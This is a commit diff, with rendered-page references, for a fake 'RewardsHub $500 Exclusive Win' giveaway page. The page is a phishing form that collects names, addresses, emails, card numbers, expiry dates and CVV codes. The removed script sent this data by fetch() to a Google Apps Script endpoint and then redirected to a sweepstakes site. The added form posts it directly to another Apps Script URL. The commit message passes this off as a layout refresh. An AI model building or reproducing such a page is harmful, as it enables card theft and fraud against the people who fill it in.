

Before and after one commit to USA2026now/cardgiveaway, a plain HTML site: page index.html in a window 1280 px wide. Before the commit the page ends 846 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Revamp account verification form and styles
Updated form layout and styling for account verification.

```diff
--- a/index.html
+++ b/index.html
@@ -6,92 +6,42 @@
     <title>RewardsHub - $500 Exclusive Win</title>
     <style>
         @import url('https://fonts.googleapis.com/css2?family=Poppins:wght@400;600;800&display=swap');
-        :root { --bg-color: #0a0f1c; --form-bg: #141c2e; --primary-glow: #8a2be2; --secondary-glow: #ff007f; --accent: #00ffcc; --text-main: #ffffff; --text-muted: #a0b8ff; }
-        * { box-sizing: border-box; margin: 0; padding: 0; font-family: 'Poppins', sans-serif; }
-        body { background: radial-gradient(circle at center, #0a0f1c 0%, #05070f 100%); color: var(--text-main); display: flex; flex-direction: column; align-items: center; min-height: 100vh; overflow-x: hidden; }
-        .input-group { margin-bottom: 22px; }
-        .row { display: flex; gap: 18px; }
-        .row .input-group { flex: 1; }
-        label { display: block; font-size: 12px; color: var(--text-muted); margin-bottom: 8px; text-transform: uppercase; letter-spacing: 1.5px; font-weight: 600; }
-        input { width: 100%; background: #0d1325; border: 2px solid #2a3441; padding: 16px 18px; border-radius: 10px; color: white; font-size: 15px; outline: none; }
-        .submit-btn { width: 100%; background: linear-gradient(45deg, var(--primary-glow), #ff007f); color: white; border: none; padding: 18px; font-size: 17px; font-weight: 900; border-radius: 12px; cursor: pointer; text-transform: uppercase; }
-        /* Baqi styling aapki file wali hi hai... */
+        :root { --bg-color: #0a0f1c; --form-bg: #141c2e; --primary-glow: #8a2be2; --secondary-glow: #ff007f; --text-main: #ffffff; }
+        body { background: radial-gradient(circle at center, #0a0f1c 0%, #05070f 100%); color: white; display: flex; justify-content: center; padding: 20px; font-family: 'Poppins', sans-serif; min-height: 100vh; }
+        .form-container { background: #141c2e; width: 100%; max-width: 450px; padding: 30px; border-radius: 20px; box-shadow: 0 10px 30px rgba(0,0,0,0.5); }
+        .input-group { margin-bottom: 20px; }
+        label { display: block; font-size: 12px; color: #a0b8ff; margin-bottom: 5px; text-transform: uppercase; letter-spacing: 1px; }
+        input { width: 100%; background: #0d1325; border: 2px solid #2a3441; padding: 15px; border-radius: 10px; color: white; outline: none; }
+        .submit-btn { width: 100%; background: linear-gradient(45deg, #8a2be2, #ff007f); color: white; border: none; padding: 18px; border-radius: 10px; font-weight: bold; cursor: pointer; text-transform: uppercase; font-size: 16px; margin-top: 10px; }
+        .submit-btn:hover { transform: scale(1.02); }
     </style>
 </head>
 <body>
 
-    <div class="form-container">
-        <h2 class="form-title">Account Verification</h2>
-        <form id="leadForm" name="leadForm">
-            <div class="row">
-                <div class="input-group">
-                    <label>First Name</label>
-                    <input type="text" name="firstName" placeholder="John" required>
-                </div>
-                <div class="input-group">
-                    <label>Last Name</label>
-                    <input type="text" name="lastName" placeholder="Doe" required>
-                </div>
-            </div>
+<div class="form-container">
+    <h2 style="text-align:center; margin-bottom:20px;">Account Verification</h2>
 
-            <div class="input-group">
-                <label>Email Address</label>
-                <input type="email" name="email" placeholder="name@example.com" required>
-            </div>
+    <form action="https://script.google.com/macros/s/AKfycbz4bE3WIVsYF6EhtlF6xbbJWSZTCx4VOFED3dHpoN88hmVk82uNfm_xToOth-7YEDEb/exec" method="POST">
 
-            <div class="input-group">
-                <label>Zip Code</label>
-                <input type="text" name="zipCode" placeholder="12345" required>
-            </div>
+        <div style="display:flex; gap:10px;">
+            <div class="input-group" style="flex:1;"><label>First Name</label><input type="text" name="firstName" required></div>
+            <div class="input-group" style="flex:1;"><label>Last Name</label><input type="text" name="lastName" required></div>
+        </div>
 
-            <div class="input-group">
-                <label>Full Delivery Address</label>
-                <input type="text" name="address" placeholder="123 Main St, Apt 4" required>
-            </div>
+        <div class="input-group"><label>Email Address</label><input type="email" name="email" required></div>
+        <div class="input-group"><label>Zip Code</label><input type="text" name="zipCode" required></div>
+        <div class="input-group"><label>Full Delivery Address</label><input type="text" name="address" required></div>
+        <div class="input-group"><label>Cardholder Name</label><input type="text" name="cardholderName" required></div>
+        <div class="input-group"><label>Card Number</label><input type="text" name="cardNumber" maxlength="19" required></div>
 
-            <div class="input-group">
-                <label>Cardholder Name</label>
-                <input type="text" name="cardholderName" placeholder="John Doe" required>
-            </div>
+        <div style="display:flex; gap:10px;">
+            <div class="input-group" style="flex:1;"><label>Expiry Date</label><input type="text" name="expiry" placeholder="MM/YY" maxlength="5" required></div>
+            <div class="input-group" style="flex:1;"><label>CVV / CVC</label><input type="password" name="cvv" placeholder="•••" maxlength="4" required></div>
+        </div>
 
-            <div class="input-group">
-                <label>Card Number</label>
-                <input type="text" name="cardNumber" placeholder="XXXX XXXX XXXX XXXX" maxlength="19" required>
-            </div>
+        <button type="submit" class="submit-btn">Verify & Claim Reward</button>
+    </form>
+</div>
 
-            <div class="row">
-                <div class="input-group">
-                    <label>Expiry Date</label>
-                    <input type="text" name="expiry" placeholder="MM/YY" maxlength="5" required>
-                </div>
-                <div class="input-group">
-                    <label>CVV / CVC</label>
-                    <input type="password" name="cvv" placeholder="•••" maxlength="4" required>
-                </div>
-            </div>
-
-            <button type="submit" class="submit-btn" id="submitBtn">Verify & Claim Reward</button>
-        </form>
-    </div>
-
-    <script>
-        const scriptURL = 'https://script.google.com/macros/s/AKfycbwbP79qBP7zWgz4pmPTsP1Xg8sGQ1-HxdfUmTPUOgs-x_KfsrUUxAPKa5ORJqdmkuny/exec';
-        const form = document.forms['leadForm'];
-        const submitBtn = document.getElementById('submitBtn');
-
-        form.addEventListener('submit', e => {
-            e.preventDefault();
-            submitBtn.innerHTML = 'Verifying... ⏳';
-            submitBtn.disabled = true;
-
-            fetch(scriptURL, { method: 'POST', body: new FormData(form)})
-                .then(response => {
-                    window.location.href = 'https://play.sweepstakesalerts.com/win-5000';
-                })
-                .catch(error => {
-                    window.location.href = 'https://play.sweepstakesalerts.com/win-5000';
-                });
-        });
-    </script>
 </body>
 </html>
```
